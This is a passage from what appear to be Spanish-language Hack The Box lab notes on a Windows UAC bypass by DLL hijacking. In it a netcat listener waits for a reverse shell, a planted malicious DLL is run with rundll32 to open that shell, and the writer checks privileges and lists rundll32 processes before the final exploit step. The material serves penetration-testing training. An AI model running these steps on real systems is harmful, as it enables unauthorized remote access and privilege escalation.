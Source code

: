 ```
CyberWolfSec@htb[/htb]$ nc -lvnp 8443
```

* **`nc`:** Se usa para escuchar conexiones entrantes.
* **Flags:**

  * `-l` listen,
  * `-v` verbose,
  * `-n` no DNS lookup,
  * `-p 8443` puerto 8443.
* **Objetivo:** Esperar la conexión reversa que el DLL ejecutará.

---

## 15. Probar la DLL con `rundll32`

```
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

* **`rundll32`**: Utilidad de Windows para ejecutar funciones exportadas de DLLs.
* **Sintaxis usada:** `rundll32 shell32.dll,Control_RunDLL <path a DLL>` invoca la función `Control_RunDLL` exportada por `shell32.dll` y pasa como argumento la DLL objetivo; en este contexto se fuerza la carga/ejecución de la DLL maliciosa.
* **Resultado inicial:** Al ejecutar esto se obtiene una shell reversa con **privilegios normales** (UAC aún presente), por lo que la conexión inicial muestra credenciales de usuario no elevadas.

```
C:\Users\sarah> whoami /priv

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

---

## 16. Verificar/terminar procesos `rundll32` antes del exploit final

### `tasklist /svc | findstr "rundll32"`

```
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A
```
